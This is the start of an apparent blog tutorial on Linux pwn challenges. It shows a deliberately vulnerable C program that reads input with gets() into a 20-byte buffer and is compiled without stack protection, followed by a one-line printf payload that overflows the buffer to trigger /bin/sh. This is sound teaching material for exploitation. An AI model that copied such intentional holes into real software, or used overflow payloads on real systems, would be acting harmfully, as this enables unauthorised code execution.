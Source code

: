 # Introduction to Linux pwn
I hope this blogpost would be a nice introduction to Linux pwn challenges, I intend on doing a multi-part series on the subject.  
The idea behind those challenges is usually gaining arbitrary code execution capabilities, either remotely or locally through the use of [SUID binary](https://en.wikipedia.org/wiki/Setuid) files.  
In this blogpost I'll show the simplest example that I hand-coded. We will focus primarily on C and Linux, but not a lot of background is necessary for now!

## First example
Here's a toy examine for us to begin:

```c
#include <stdio.h>
#include <unistd.h>

static
void
say_hello(int* magic)
{
	char name[20] = { 0 };

	printf("What is your name? ");
	gets(name);
	printf("Hello %s!\n", name);

	if (*magic == 0x1337CAFE)
	{
		printf("woot!\n");
		execve("/bin/sh", NULL, NULL);
	}
}

int
main()
{
	int magic = 0;

	setbuf(stdout, NULL);
	say_hello(&magic);

	return 0;
}
```

Let us analyze the code:
1. Function `say_hello` gets a pointer to a variable called `magic`. Then, it gets a `name` from `stdin` (from the standard input, aka "the keyboard") and prints out a greeting.
2. If the `magic` value supplied to the function `say_hello` is exactly `0x1337CAFE` (a completely random value I chose for this exercise!) then we print `woot` and execute `/bin/sh`, i.e. "getting a shell".
3. The `main` function simply called `say_hello` with a `magic` value that was initialized to `0`, hence we should never fulfill the condition to get us a shell.
4. Also notice `setbuf(stdout, NULL)` - this basically replaces `fflush` on `stdout` and simply makes sure we print out immidiately without buffering. It's not super important for now.

Well, let us compile using `gcc`, but with a special flag I will mention shortly: `-fno-stack-protector`. I also use `-w` to ignore all warnings.  
Since I do not like typing a lot, I put things in a `Makefile`:

```
CC=gcc
CFLAGS=-fno-stack-protector -w

chall: chall.c
	$(CC) $(CFLAGS) -o chall chall.c

clean:
	rm -f chall
```

Upon compilation:

```shell
gcc -fno-stack-protector -w -o chall chall.c
/usr/bin/ld: /tmp/ccODuVW9.o: in function `say_hello':
chall.c:(.text+0x48): warning: the `gets' function is dangerous and should not be used.
```

That's just a warning (even though I ignored the warnings with `-w`!), but a big hint on the issue.  
After successfully compiling, let's run:

```shell
$ ./chall
What is your name? JBO
Hello JBO!
```

So far so good. Although, take a look at this!

```shell
$ printf "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xFE\xCA\x37\x13" | ./chall
What is your name? Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��7!
woot!
```

Looks like we satisfied the condition of `*magic == 0x1337CAFE`! How?
